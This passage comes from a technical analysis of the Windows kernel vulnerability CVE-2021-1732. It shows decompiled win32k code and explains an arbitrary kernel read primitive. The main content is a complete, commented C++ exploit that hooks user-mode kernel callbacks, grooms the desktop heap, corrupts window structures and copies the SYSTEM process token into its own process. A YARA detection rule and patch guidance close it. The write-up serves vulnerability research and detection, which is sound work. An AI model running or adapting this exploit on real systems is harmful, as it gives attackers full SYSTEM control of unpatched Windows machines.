

From `win32kfull.sys!xxxGetMenuBarInfo`, we can see why `GetMenuBarInfo` can be used to read arbitrary kernel address data:

```cpp
__int64 __fastcall xxxGetMenuBarInfo(ULONG_PTR ptagWND, int idObject, int idItem, MENUBARINFO *pmbi)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]
 
  one = idItem;                                 // idIteam
  SmartObjStackRefBase<tagMENU>::Init(spMenuk, 0i64);
  v8 = 0i64;
  zero = 0i64;
  SmartObjStackRefBase<tagPOPUPMENU>::Init(v53, 0i64);
  if ( pmbi->cbSize != 0x30 )                   // pmbi->cbSize must be sizeof(MENUBARINFO)
  {
    UserSetLastError(0x57i64);
    goto LABEL_30;
  }
  v9 = 1;
  *&pmbi->rcBar.left = 0i64;
  *&pmbi->rcBar.right = 0i64;
  *(&pmbi[1].rcBar.right + 1) &= 0xFFFFFFFC;
  *&pmbi->fBarFocused = 0i64;
  *(&pmbi[1].rcBar.left + 1) = 0i64;
  ptagWNDk = *(ptagWND + 0x28);
  if ( (*(ptagWNDk + 0xE8) & 0x8000000) != 0 )
  {
    v12 = GetWindowDpiLastNotify(ptagWND);
  }
  else if ( (*(ptagWNDk + 0x120) & 0xF) == 0
         && (v11 = *(*(ptagWND + 0x10) + 0x1C0i64)) != 0
         && (*(**(v11 + 8) + 0x40i64) & 1) != 0 )
  {
    v12 = 0x60;
  }
  else
  {
    v12 = *(*(*(ptagWND + 0x10) + 0x1A0i64) + 0x11Ci64);
  }
  if ( idObject == 0xFFFFFFFD )                 // If idObject = -3
  {
    if ( (*(ptagWNDk + 0x1F) & 0x40) == 0 )     // ptagWNDk->dwStyle+7 must contain 0x40
    {
      spMenu = *(ptagWND + 0x90);
      if ( spMenu )
      {
        zero = 0i64;
        SmartObjStackRefBase<tagMENU>::operator=(spMenuk, spMenu);
        if ( SmartObjStackRef<tagMENU>::operator bool(spMenuk)// Must satisfy 0<=idItem<=spMenuk->unknown1->cItems
          && one >= 0
          && one <= *(*(*spMenuk[0] + 0x28i64) + 0x2Ci64) )
        {
          _spMenu = zero;
          if ( !zero )
            _spMenu = *spMenuk[0];
          *&pmbi->fBarFocused = *_spMenu;
          if ( *(*spMenuk[0] + 0x40i64) && *(*spMenuk[0] + 0x44i64) )// ptagWND->spMenu->unknown2 && ptagWND->spMenu->unknown3
          {
            if ( one )
            {
              _ptagWNDk = *(ptagWND + 0x28);
              n60 = 0x60 * one;
              rgItems = *(*spMenuk[0] + 0x58i64);
              _rgItems = *(0x60 * one + rgItems - 0x60);// ptagWND->spMenu->rgItems is the target address pointer to read
              if ( (*(_ptagWNDk + 0x1A) & 0x40) != 0 )// ptagWND->ptagWNDk->dwStyle contains WS_CHILD flag
              {
                top = *(_ptagWNDk + 0x60) - *(_rgItems + 0x40);
                pmbi->rcBar.right = top;
                pmbi->rcBar.left = top - *(*(n60 + rgItems - 0x60) + 0x48i64);// pmbi->rcBar->left = mbi.rcBar.top - (pAddress+0x8)
              }
              else                              // ptagWND->ptagWNDk->dwStyle does not contain WS_CHILD flag
              {
                left = *(_rgItems + 0x40) + *(_ptagWNDk + 0x58);
                pmbi->rcBar.left = left;        // pmbi->rcbar.left = *pAddress + *(ptagWND->ptagWNDk->rectLeft), pAddress is the target address to read
                pmbi->rcBar.right = left + *(*(n60 + rgItems - 0x60) + 0x48i64);// pmbi->rcbar.right = pmbi->rcbar.left + *(pAddress+8)
              }
              top_1 = *(*(ptagWND + 0x28) + 0x5Ci64) + *(*(n60 + rgItems - 0x60) + 0x44i64);
              pmbi->rcBar.top = top_1;          // pmbi->rcBar.top = *(ptagWND->ptagWNDk->rectTop) + *(pAddress+4)
              bottom = top_1 + *(*(n60 + rgItems - 0x60) + 0x4Ci64);// pmbi->rcBar.bottom = pmbi->rcBar.top + *(pAddress+0xC)
            }
            else
            {
              v15 = GetWindowBordersForDpi(*(*(ptagWND + 0x28) + 0x1Ci64), *(*(ptagWND + 0x28) + 0x18i64));
              _ptagWNDK = *(ptagWND + 0x28);
              if ( (*(_ptagWNDK + 0x1A) & 0x40) != 0 )
              {
                pmbi->rcBar.right = *(_ptagWNDK + 0x60) - v15;
                pmbi->rcBar.left = pmbi->rcBar.right - *(*spMenuk[0] + 0x40i64);
              }
              else
              {
                v17 = *(_ptagWNDK + 0x58);
                v18 = spMenuk[0];
                pmbi->rcBar.left = v15 + v17;
                pmbi->rcBar.right = pmbi->rcBar.left + *(*v18 + 0x40i64);
              }
              pmbi->rcBar.top = v15 + *(*(ptagWND + 0x28) + 0x5Ci64);
              v19 = *(ptagWND + 0x28);
              if ( (*(v19 + 0x10) & 8) != 0 )
                pmbi->rcBar.top += GetDpiDependentMetric(((*(v19 + 0x18) >> 7) & 0x14u) + 2, v12);
              bottom = pmbi->rcBar.top + *(*spMenuk[0] + 0x44i64);
            }
            pmbi->rcBar.bottom = bottom;        // pmbi->rcBar.bottom = pmbi->rcBar.top + *(pAddress+0xC)
          }
          v21 = *(*(ptagWND + 0x10) + 0x258i64);
          if ( v21 )
            v22 = *v21;
          else
            v22 = 0i64;
          SmartObjStackRefBase<tagPOPUPMENU>::operator=(v53, v22);
          if ( !*v53[0] || (**v53[0] & 2) == 0 || (**v53[0] & 4) != 0 )
            goto LABEL_27;
          goto LABEL_60;
        }
      }
    }
LABEL_30:
    v9 = 0;
    goto LABEL_27;
  }
  //...
}
```

I've added extensive comments inside, making it easy to understand the arbitrary read function principle in the EXP:

```cpp
void ReadKernelMemoryQQWORD(ULONG_PTR pAddress, ULONG_PTR &ululOutVal1, ULONG_PTR &ululOutVal2)
{
    MENUBARINFO mbi = { 0 };
    mbi.cbSize = sizeof(MENUBARINFO);
 
    RECT Rect = { 0 };
    GetWindowRect(g_hWnd[1], &Rect);
 
    *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = pAddress - 0x40; //0x44 xItem
    GetMenuBarInfo(g_hWnd[1], -3, 1, &mbi);
 
    BYTE pbKernelValue[16] = { 0 };
    *(DWORD*)(pbKernelValue) = mbi.rcBar.left - Rect.left;
    *(DWORD*)(pbKernelValue + 4) = mbi.rcBar.top - Rect.top;
    *(DWORD*)(pbKernelValue + 8) = mbi.rcBar.right - mbi.rcBar.left;
    *(DWORD*)(pbKernelValue + 0xc) = mbi.rcBar.bottom - mbi.rcBar.top;
 
    ululOutVal1 = *(ULONG_PTR*)(pbKernelValue);
    ululOutVal2 = *(ULONG_PTR*)(pbKernelValue + 8);
}
```

### 6. Analysis Summary

From the analysis above:

1. By hooking `user32!_xxxClientAllocWindowClassExtraBytes` and calling `NtCallbackReturn`, the value of `pExtraBytes` can be set. This value stores either a user-mode memory address or an offset relative to the kernel heap base address
2. `SetWindowLong` can be used to modify the memory data pointed to by `pExtraBytes`
3. `ConsoleControl` can control `dwExtraFlag |= 0x800`, which determines the addressing mode when `SetWindowLong` writes data
4. `cbWndExtra` can be specified when registering the window class and can be understood as the extra memory size. When using `SetWindowLong` to write data, the offset `nIndex` must be less than this value

By combining these 4 elements, arbitrary kernel heap memory writes can be achieved.

Using a diagram from @iamelli0t to summarize:



Finally, using the arbitrary read capability of `GetMenuBarInfo`, the SYSTEM process's access token can be obtained, and the arbitrary write can be used to overwrite the token into the current process to complete the privilege escalation.

## 7. EXP Walkthrough

The main function code is not long, consisting of 13 steps. I've added detailed comments directly inline:

```cpp
int APIENTRY wWinMain(_In_ HINSTANCE hInstance,
    _In_opt_ HINSTANCE hPrevInstance,
    _In_ LPWSTR    lpCmdLine,
    _In_ int       nCmdShow)
{
    UNREFERENCED_PARAMETER(hPrevInstance);
    UNREFERENCED_PARAMETER(lpCmdLine);
 
    // 1. Redirect standard input/output to console
    AllocConsole();
    FILE* tempFile = nullptr;
    freopen_s(&tempFile, "conin$", "r+t", stdin);
    freopen_s(&tempFile, "conout$", "w+t", stdout);
    // end of 1
 
    // 2. Print system version info, tested on 1809
    typedef void(WINAPI* FRtlGetNtVersionNumbers)(DWORD*, DWORD*, DWORD*);
    DWORD dwMajorVer, dwMinorVer, dwBuildNumber = 0;
    FRtlGetNtVersionNumbers fRtlGetNtVersionNumbers = (FRtlGetNtVersionNumbers)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlGetNtVersionNumbers");
    fRtlGetNtVersionNumbers(&dwMajorVer, &dwMinorVer, &dwBuildNumber);
    dwBuildNumber &= 0x0ffff;
 
    std::cout << "Example CVE-2021-1732 Exp working in windows 10 1809(17763).\n";
    std::cout << "Current system version:\n";
    std::cout << "  MajorVer:" << dwMajorVer << " MinorVer:" << dwMinorVer << " BuildNumber:" << dwBuildNumber << std::endl;
    system("pause");
    // end of 2
 
    // 3. Load all API functions used
    g_fNtUserConsoleControl = (FNtUserConsoleControl)GetProcAddress(GetModuleHandle(L"win32u.dll"), "NtUserConsoleControl");
    g_fFNtCallbackReturn = (FNtCallbackReturn)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCallbackReturn");
    g_fRtlAllocateHeap = (RtlAllocateHeap)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlAllocateHeap");
    // end of 3
 
    // 4. Backup and hook user32!xxxClientAllocWindowClassExtraBytes and user32!xxxClientFreeWindowClassExtraBytes
    ULONG_PTR pKernelCallbackTable = (ULONG_PTR) *(ULONG_PTR*)(__readgsqword(0x60) + 0x58); //PEB->KernelCallbackTable
    g_fxxxClientAllocWindowClassExtraBytes = (FxxxClientAllocWindowClassExtraBytes)*(ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3D8);
    g_fxxxClientFreeWindowClassExtraBytes = (FxxxClientFreeWindowClassExtraBytes) * (ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3E0);
    DWORD dwOldProtect = 0;
    VirtualProtect((PBYTE)pKernelCallbackTable + 0x3D8, 0x400, PAGE_EXECUTE_READWRITE, &dwOldProtect);
    *(ULONG_PTR *)((PBYTE)pKernelCallbackTable + 0x3D8) = (ULONG_PTR)MyxxxClientAllocWindowClassExtraBytes;
    *(ULONG_PTR *)((PBYTE)pKernelCallbackTable + 0x3E0) = (ULONG_PTR)MyxxxClientFreeWindowClassExtraBytes;
    VirtualProtect((PBYTE)pKernelCallbackTable + 0x3D8, 0x400, dwOldProtect, &dwOldProtect);
    // end of 4
 
    // 5. Find HmValidateHandle function address through IsMenu
    FindHMValidateHandle(&fHMValidateHandle);
    // end of 5
 
    // 6. Register two window classes
    //    1) These two window classes differ only in cbWndExtra (extra memory size) besides the class name
    ATOM atom1, atom2 = 0;
 
    WNDCLASSEX WndClass = { 0 };
    WndClass.cbSize = sizeof(WNDCLASSEX);
    WndClass.lpfnWndProc = DefWindowProc;
    WndClass.style = CS_VREDRAW| CS_HREDRAW;
    WndClass.cbWndExtra = 0x20;
    WndClass.hInstance = hInstance;
    WndClass.lpszMenuName = NULL;
    WndClass.lpszClassName = L"Class1";
    atom1 = RegisterClassEx(&WndClass);
 
    WndClass.cbWndExtra = g_dwMyWndExtra;
    WndClass.hInstance = hInstance;
    WndClass.lpszClassName = L"Class2";
    atom2 = RegisterClassEx(&WndClass);
    // end of 6
 
    // 7. Construct kernel heap memory layout
    ULONG_PTR dwpWnd0_to_pWnd1_kernel_heap_offset = 0;
    for (int nTry = 0; nTry < 5; nTry++) {
        HMENU hMenu = NULL;
        HMENU hHelpMenu = NULL;
 
        // 7.1 Create 50 windows, all bound to window class Class1. This allocates 50 identical blocks in the kernel desktop heap for window menus, styles, etc.
        //     1) Through HMValidateHandle, the kernel address of tagWnd can be leaked
        //     2) Window extra memory is allocated in user space by default, not on the kernel heap
        for (int i = 0; i < 50; i++) {
            if (i == 1) {
                hMenu = CreateMenu();
                hHelpMenu = CreateMenu();
 
                AppendMenu(hHelpMenu, MF_STRING, 0x1888, TEXT("about"));
                AppendMenu(hMenu, MF_POPUP, (LONG)hHelpMenu, TEXT("help"));
            }
            g_hWnd[i] = CreateWindowEx(NULL, L"Class1", NULL, WS_VISIBLE, 0, 0, 1, 1, NULL, hMenu, hInstance, NULL);
            g_pWnd[i] = (ULONG_PTR)fHMValidateHandle(g_hWnd[i], 1); //Get leak kernel mapping desktop heap address
        }
        // end of 7.1
 
        // 7.2 Destroy the last 48 windows, keeping only the first 2. The window heap space is freed accordingly
        for (int i = 2; i < 50; i++) {
            if (g_hWnd[i] != NULL) {
                DestroyWindow((HWND)g_hWnd[i]);
            }
        }
        // end of 7.2
 
        // 7.3 Get the offset of ptagWNDk for the first two windows relative to the kernel heap base, obtained at ptagWNDk+0x8
        g_dwpWndKernel_heap_offset0 = *(ULONG_PTR*)((PBYTE)g_pWnd[0] + g_dwKernel_pWnd_offset);
        g_dwpWndKernel_heap_offset1 = *(ULONG_PTR*)((PBYTE)g_pWnd[1] + g_dwKernel_pWnd_offset);
        // end of 7.3
 
        // 7.4 After calling NtUserConsoleControl, window 0 undergoes these changes:
        //     1) 0x800 is added to dwExtraFlag, meaning offset addressing is enabled
        //     2) Extra memory for the window is re-allocated on the kernel heap, and the offset relative to kernel heap base is set to pExtraBytes
        ULONG_PTR ChangeOffset = 0;
        ULONG_PTR ConsoleCtrlInfo[2] = { 0 };
        ConsoleCtrlInfo[0] = (ULONG_PTR)g_hWnd[0];
        ConsoleCtrlInfo[1] = (ULONG_PTR)ChangeOffset;
        NTSTATUS ret1 = g_fNtUserConsoleControl(6, (ULONG_PTR)&ConsoleCtrlInfo, sizeof(ConsoleCtrlInfo));
        // end of 7.4
 
        // 7.5 Get the pExtraBytes offset of window 0's extra memory
        dwpWnd0_to_pWnd1_kernel_heap_offset = *(ULONGLONG*)((PBYTE)g_pWnd[0] + 0x128);
        // end of 7.5
 
        // 7.6 Check if window 0's extra memory offset precedes window 1's ptagWNDk offset
        //     1) Later, SetWindowLongPtr will be used for OOB read/write on window 1 data. By passing nIndex, ptagWNDk0->pExtraBytes+nIndex memory can be modified
        //     2) ptagWNDk0->pExtraBytes + dwpWnd0_to_pWnd1_kernel_heap_offset points to ptagWNDk1
        //     3) Requires nIndex >= 0, so ptagWNDk0->pExtraBytes < g_dwpWndKernel_heap_offset1 = ptagWNDK1 - kernel_heap_base_addr
        if (dwpWnd0_to_pWnd1_kernel_heap_offset < g_dwpWndKernel_heap_offset1) {
            dwpWnd0_to_pWnd1_kernel_heap_offset = (g_dwpWndKernel_heap_offset1 - dwpWnd0_to_pWnd1_kernel_heap_offset);
            break;
        }
        else {
            //:warning SetWindowLongPtr nIndex can't < 0; continue to try
            if (g_hWnd[0] != NULL) {
                DestroyWindow((HWND)g_hWnd[0]);
            }
            if (g_hWnd[1] != NULL) {
                DestroyWindow((HWND)g_hWnd[1]);
 
                if (hMenu != NULL) {
                    DestroyMenu(hMenu);
                }
                if (hHelpMenu != NULL) {
                    DestroyMenu(hHelpMenu);
                }
            }
        }
        dwpWnd0_to_pWnd1_kernel_heap_offset = 0;
        // end of 7.6
    }
    if (dwpWnd0_to_pWnd1_kernel_heap_offset == 0) {
        std::cout << "Memory layout fail. quit" << std::endl;
        system("pause");
        return 0;
    }
    // end of 7
 
    // 8. Create window 2, bound to window class Class2. Due to MyxxxClientAllocWindowClassExtraBytes:
    //   1) Window 2's extra memory is allocated directly on the kernel heap
    //   2) ptagWND2->dwExtraFlag already has 0x800 set
    //   3) Subsequent SetWindowLong uses ptagWND2->dwExtraBytes for offset addressing
    //   4) ptagWND2->dwExtraBytes = g_dwpWndKernel_heap_offset0 = ptagWNDK0 - kernel_heap_base_addr
    HWND hWnd2 = CreateWindowEx(NULL, L"Class2", NULL, WS_VISIBLE, 0, 0, 1, 1, NULL, NULL, hInstance, NULL);
    PVOID pWnd2 = fHMValidateHandle(hWnd2, 1); // Get leak kernel mapping desktop heap address
    // end of 8
 
    // 9. Enlarge ptagWNDk0->cbWndExtra to 0x0FFFFFFFF to avoid OOB write failures due to offset exceeding the range
    //    1) Why not set it to 0x0FFFFFFFF directly when registering the window class?
    //       Because CreateWindowEx allocates cbWndExtra bytes of memory; to avoid memory exhaustion, modify it via SetWindowLong OOB write
    SetWindowLong(hWnd2, g_cbWndExtra_offset, 0x0FFFFFFFF); //Modify cbWndExtra to large value
    // end of 9
 
    /* At this point, SetWindowLongPtr and window 0 can be used for OOB writes on the kernel heap. Below covers how to use window 1 to read arbitrary kernel heap addresses */
 
    // 10. Construct a menu structure g_pMyMenu for the following reasons:
    //     1) ReadKernelMemoryQQWORD uses g_pMyMenu + 0x58 for arbitrary kernel data reads
    //     2) SetWindowLongPtr with g_pMyMenu can leak kernel addresses
    {
        // 10.1 Set window 1's style attribute WS_CHILD, a prerequisite for step 10.3
        ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
        ululStyle |= 0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify add style WS_CHILD
        // end of 10.1
 
        // 10.2 Construct g_pMyMenu structure
        g_pMyMenu = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0xA0);
        *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x98) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x20);
        **(ULONG_PTR**)((PBYTE)g_pMyMenu + 0x98) = g_pMyMenu;
        *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x200);
        *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x8); //rgItems 1
        *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) + 0x2C) = 1; //cItems 1
        *(DWORD*)((PBYTE)g_pMyMenu + 0x40) = 1;
        *(DWORD*)((PBYTE)g_pMyMenu + 0x44) = 2;
        *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = 0x4141414141414141;
        // end of 10.2
 
        // 10.3 Use SetWindowLongPtr's GWLP_ID(-12) to set window 1's menu to the constructed g_pMyMenu from 10.2; it also returns the old menu address ptagWND->spMenu, which is a kernel heap address (refer to tagWnd structure)
        ULONG_PTR pSPMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)g_pMyMenu); //Return leak kernel address and set fake spmenu memory
        //pSPMenu leak kernel address, good!!!
        // end of 10.3
 
        // 10.4 Restore window 1's style attribute
        ululStyle &= ~0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify Remove Style WS_CHILD
        // end of 10.4
    }
    // end of 10
 
    ULONG_PTR ululValue1 = 0, ululValue2 = 0;
 
    // 11. Read eprocess info from ptagWND->spMenu->unknown0->unknown->pEPROCESS
    //     1) ReadKernelMemoryQQWORD can read 16 bytes of data at a specified kernel address; ululValue1 holds the first 8 bytes, ululValue2 holds the last 8 bytes
    ReadKernelMemoryQQWORD(pSPMenu + 0x18, ululValue1, ululValue2);
    ReadKernelMemoryQQWORD(ululValue1 + 0x100, ululValue1, ululValue2);
    ReadKernelMemoryQQWORD(ululValue1, ululValue1, ululValue2);
 
    ULONG_PTR pMyEProcess = ululValue1;
    std::cout<< "Get current kernel eprocess: " << pMyEProcess << std::endl;
    // end of 11
 
    // 12. Read the access token of the PID 4 process from eprocess, copy it to our current process for privilege escalation
    ULONG_PTR pSystemEProcess = 0;
 
    ULONG_PTR pNextEProcess = pMyEProcess;
    for (int i = 0; i < 500; i++) {
        ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_ActiveProcessLinks_offset, ululValue1, ululValue2);
        pNextEProcess = ululValue1 - g_dwEPROCESS_ActiveProcessLinks_offset;
 
        ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_UniqueProcessId_offset, ululValue1, ululValue2);
 
        ULONG_PTR nProcessId = ululValue1;
        if (nProcessId == 4) { // System process id
            pSystemEProcess = pNextEProcess;
            std::cout << "System kernel eprocess: " << std::hex << pSystemEProcess << std::endl;
 
            ReadKernelMemoryQQWORD(pSystemEProcess + g_dwEPROCESS_Token_offset, ululValue1, ululValue2);
            ULONG_PTR pSystemToken = ululValue1;
 
            ULONG_PTR pMyEProcessToken = pMyEProcess + g_dwEPROCESS_Token_offset;
 
            //Write kernel memory
            LONG_PTR old = SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pMyEProcessToken);
            SetWindowLongPtr(g_hWnd[1], 0, (LONG_PTR)pSystemToken);  //Modify offset to memory address
            SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)old);
            break;
        }
    }
    // end of 12
 
    // 13. Recovery bug (restore memory structure to prevent BSOD)
    g_dwpWndKernel_heap_offset2 = *(ULONG_PTR*)((PBYTE)pWnd2 + g_dwKernel_pWnd_offset);
    ULONG_PTR dwpWnd0_to_pWnd2_kernel_heap_offset = *(ULONGLONG*)((PBYTE)g_pWnd[0] + 0x128);
    if (dwpWnd0_to_pWnd2_kernel_heap_offset < g_dwpWndKernel_heap_offset2) {
        dwpWnd0_to_pWnd2_kernel_heap_offset = (g_dwpWndKernel_heap_offset2 - dwpWnd0_to_pWnd2_kernel_heap_offset);
 
        DWORD dwFlag = *(ULONGLONG*)((PBYTE)pWnd2 + g_dwModifyOffsetFlag_offset);
        dwFlag &= ~0x800;
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffsetFlag_offset, dwFlag);  //Modify remove flag
 
        PVOID pAlloc = g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, g_dwMyWndExtra);
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pAlloc);  //Modify offset to memory address
 
 
        ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
        ululStyle |= 0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify add style WS_CHILD
 
        ULONG_PTR pMyMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)pSPMenu);
        //free pMyMenu
 
        ululStyle &= ~0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify Remove Style WS_CHILD
 
        std::cout << "Recovery bug prevent blue screen." << std::endl;
    }
    // end of 13
 
    DestroyWindow(g_hWnd[0]);
    DestroyWindow(g_hWnd[1]);
    DestroyWindow(hWnd2);
     
    if (pSystemEProcess != NULL) {
        std::cout << "CVE-2021-1732 Exploit success, system permission" << std::endl;
    }
    else {
        std::cout << "CVE-2021-1732 Exploit fail" << std::endl;
    }
    system("pause");
 
    return (int)0;
}
```

## 8. Yara Rule

From [DBAPPSecurity](https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/):

```yara
rule apt_bitter_win32k_0day {
    meta:
        author = "dbappsecurity_lieying_lab"
        data = "01-01-2021"
 
    strings:
        $s1 = "NtUserConsoleControl" ascii wide
        $s2 = "NtCallbackReturn" ascii wide
        $s3 = "CreateWindowEx" ascii wide
        $s4 = "SetWindowLong" ascii wide
 
        $a1 = {48 C1 E8 02 48 C1 E9 02 C7 04 8A}
        $a2 = {66 0F 1F 44 00 00 80 3C 01 E8 74 22 FF C2 48 FF C1}
        $a3 = {48 63 05 CC 69 05 00 8B 0D C2 69 05 00 48 C1 E0 20 48 03 C1}
 
    condition:
        uint16(0) == 0x5a4d and all of ($s*) and 1 of ($a*)
}
```

## 9. Remediation

- Upgrade the system version
- Refer to [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1732](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1732) to install the corresponding system patch

## 10. References

- [https://www.anquanke.com/post/id/241804](https://www.anquanke.com/post/id/241804)
- [https://www.secrss.com/articles/29758](https://www.anquanke.com/post/id/241804)
- [https://bbs.pediy.com/thread-266362.htm](https://www.anquanke.com/post/id/241804)
- [https://paper.seebug.org/1574/](https://paper.seebug.org/1574/)
- [https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/](https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/)
- [https://github.com/k-k-k-k-k/CVE-2021-1732](https://github.com/k-k-k-k-k/CVE-2021-1732)
- [https://github.com/KaLendsi/CVE-2021-1732-Exploit](https://github.com/KaLendsi/CVE-2021-1732-Exploit)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1732](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1732)
- [https://www.vergiliusproject.com/kernels/x64/windows-10/1809/_PEB64](https://www.vergiliusproject.com/kernels/x64/windows-10/1809/_PEB64)
- [https://docs.microsoft.com/en-us/windows/win32/api/windef/ns-windef-rect](https://docs.microsoft.com/en-us/windows/win32/api/windef/ns-windef-rect)
